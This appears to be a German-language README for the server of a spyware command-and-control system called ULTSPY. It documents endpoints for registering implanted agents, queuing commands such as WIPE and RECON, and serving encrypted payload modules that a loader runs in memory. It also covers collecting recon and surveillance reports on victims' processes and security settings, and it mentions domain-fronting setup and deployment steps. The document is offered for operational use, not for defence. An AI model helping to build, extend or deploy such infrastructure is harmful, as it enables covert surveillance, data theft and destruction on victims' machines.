 # Server Component

Eine minimale Flask-Anwendung, die REST-Endpunkte für Registrierung, Kommandos und Updates bereitstellt. Neu sind Endpunkte zur Heartbeat-Verarbeitung und Kommandoverteilung.

## Key Exchange
```
POST /key_exchange
{ "uuid": "<client uuid>", "public_key": "-----BEGIN RSA PUBLIC KEY-----..." }
```
Antwort:
```
{ "aes_key": "<base64 encrypted key>" }
```

## Heartbeat
```
POST /heartbeat
{ "uuid": "<client uuid>" }
```

Der Server speichert den Zeitpunkt des letzten Heartbeats pro Client. Ist kein neuer Heartbeat innerhalb von 180 Sekunden eingegangen, wechselt der Client-Status auf **offline**.

### Client-Status
Der aktuelle Zustand kann über folgenden Endpunkt abgefragt werden:

```
GET /status/<uuid>
-> { "uuid": "<uuid>", "status": "online", "last_seen": "2025-06-04T10:00:00" }
```

## Kommandos
```
POST /command/<uuid>
{ "command": "SAFE_MODE", "parameters": {} }
```
Unterstützte Befehle sind `SAFE_MODE`, `WIPE` und `DEEP_SLEEP`. Das alte Feld `cmd` wird weiterhin akzeptiert, bevorzugt wird jedoch das JSON-Format oben. Befehle werden serverseitig geloggt und beim nächsten Abruf ausgeliefert.

```
GET /commands/<uuid>
-> { "commands": [{"command":"SAFE_MODE","parameters":{}}] }
```
Jeder Eintrag enthält das Kommando und optionale Parameter.

## Payload Delivery
```
GET /payload/<uuid>/<module>
-> { "payload": "<base64 encrypted module>" }
```
Der Server liefert verschlüsselte Module, welche der gehärtete Loader im Arbeitsspeicher entschlüsselt und lädt.

## Recon Daten
``` 
POST /recon/<uuid>
{ "data": "<base64 AES(iv+json)>" }
```
Der verschlüsselte Recon-Bericht wird gespeichert und kann zu Debug-Zwecken entschlüsselt ausgegeben werden.

## Active Surveillance Report
```
POST /surveillance_report/<uuid>
{ "data": "<base64 AES(iv+json)>" }
```
Der verschlüsselte Überwachungsbericht enthält laufende Prozesse, Autoruns und Sicherheitsinformationen.

## Admin Endpoints

Für administrative Aufgaben steht ein API-Key geschützter Zugriff zur Verfügung. Der Schlüssel wird über den HTTP-Header `X-API-KEY` mitgesendet. Bei fehlendem oder falschem Schlüssel antwortet der Server mit `401 Unauthorized`.

### Agents auflisten
```
GET /admin/agents
-> { "agents": [{"uuid": "<id>", "online": true, "last_seen": "..."}] }
```

### Logs eines Agents
```
GET /admin/logs/<uuid>
-> { "logs": [
     {"timestamp":"2025-06-05T20:00:00Z","type":"Recon","description":"Recon data","data":"{...}"},
     {"timestamp":"2025-06-05T20:01:00Z","type":"Info","description":"heartbeat"}
   ] }
```
Ein Eintrag enthält Zeitstempel (UTC), Typ des Eintrags (Recon, Surveillance, Info, Fehler usw.), eine Kurzbeschreibung und optional Rohdaten.

### Kommando pushen
```
POST /admin/command/<uuid>
{ "command": "SAFE_MODE", "parameters": {} }
```
Identisch zu `/command/<uuid>`, aber nur mit gültigem API-Key erreichbar.

### Aktuelle Server-Konfiguration
```
GET /admin/config
-> {
     "api_keys": ["default"],
     "heartbeat_timeout": 180,
     "versions": {"backend": "dev", "frontend": "0.0.0"},
     "targets": ["localhost"],
     "allowed_hosts": ["localhost"]
   }
```
Listet die wichtigsten Einstellungen des Backends wie Heartbeat-Timeout und konfigurierte Zielhosts auf. Die API-Keys werden nur maskiert ausgegeben.

### Kommando-Templates

Wiederkehrende Befehle lassen sich als Vorlage speichern und später schnell abrufen:

```
GET /admin/templates
-> { "templates": [{"template_id":"...","name":"Daily Recon","command":"RECON","parameters":{}}] }

POST /admin/templates
{ "name": "Daily Recon", "command": "RECON", "parameters": {} }
-> { "template_id": "<id>" }

DELETE /admin/templates/<template_id>
-> { "status": "deleted" }
```

Der Name eines Templates muss eindeutig sein. Bei Dopplern liefert der Server `409 Conflict`.

## API Hardening
Alle Agent-Requests tragen ab Version 4 eine HMAC-SHA256-Signatur. Zusätzlich wird pro Aufruf ein einmaliger Nonce sowie ein Zeitstempel übertragen:

- `X-ULTSPY-Signature`
- `X-ULTSPY-Nonce`
- `X-ULTSPY-Timestamp`

Der Server verifiziert die Signatur anhand des pro Client hinterlegten AES-Schlüssels, prüft die Zeitabweichung (±60s) und lehnt doppelte Nonces ab.

```
pip install -r requirements.txt
python app.py
```

Die API-Schlüssel werden in `config.json` definiert. Beispiel:
```json
{
  "allowed_hosts": ["localhost", "example.cloudfront.net"],
  "api_keys": {
    "admin": "changemeadmin"
  }
}
```
Der passende Schlüssel muss bei Admin-Aufrufen im Header `X-API-KEY` übergeben werden. Bei falschem oder fehlendem Key antwortet der Server mit `401 Unauthorized`.

## Domain Fronting Vorbereitung

In `config.json` lässt sich eine Liste erlaubter Hostnamen konfigurieren. Bei eingehenden Anfragen prüft der Server den `Host`-Header und lehnt unbekannte Hosts ab. Über `/config/targets` kann die aktuelle Routing-Tabelle abgefragt werden.
Beispiel `config.json`:
```json
{
  "allowed_hosts": ["localhost", "example.cloudfront.net"]
}
```

## Deployment

1. Create a virtual environment and install dependencies:
```bash
python -m venv /srv/ultspy-c2/venv
source /srv/ultspy-c2/venv/bin/activate
pip install -r requirements.txt
```
2. Start the API using Gunicorn:
```bash
gunicorn -w 4 -b 0.0.0.0:5000 wsgi:app
```
This will expose the Flask app via WSGI. The server logs to STDOUT and can be combined with a process manager and proxy such as Nginx.
